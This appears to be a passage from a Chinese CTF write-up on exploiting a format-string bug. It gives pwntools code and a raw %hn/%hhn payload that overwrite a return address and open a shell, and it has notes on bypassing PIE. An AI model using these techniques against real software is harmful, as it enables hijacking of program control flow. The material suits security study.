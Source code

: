 ```python
# payload2 = fmtstr_payload(8, {ret_addr: addr_changed},write_size='short')
payload2 = b"%"+str(addr_changed).encode() +b"c%10$hn"
payload2 = payload2.ljust(0x10,b'a')
payload2 += p64(ret_addr)

print(payload2)
fmt_attack(payload2)

sh.interactive()
```

收获：

- 注意分开栈中的`addr`和`value`的区别，用`%p`得到的是`value`，需要对地址上的值进行更改的时候需要的是`addr`
- `PIE`开启的情况下，通过对函数的返回地址减去偏移值可以直接得到`elf_base`，达到`PIE`绕过的操作
- x64系统的一个地址是占8个字节，修改的时候因为`PIE`的偏移差不多是后两个字节，也就是需要用`hn`来进行地址的修改
- 格式化字符串和栈溢出字符串不一样，是需要修改调用`**printf`函数的函数**的`rbp+8`的地址（比如说调用`printf`的`fmt_attack`函数的`rbp+8`
- 因为要覆盖改变的`rbp+8`在格式化字符串存储位置的后面，不能直接使用`fmtstr_payload`函数

%99c%17$hhn%200c%18$hhn%219c%19$hhn%228c%20$hhn%233c%21$hhn%172c%22$hhnaF\x160þ\x7f\x00\x00F\x160þ\x7f\x00\x00F\x160þ\x7f\x00\x00F\x160þ\x7f\x00\x00F\x160þ\x7f\x00\x00F\x160þ\x7f\x00\x00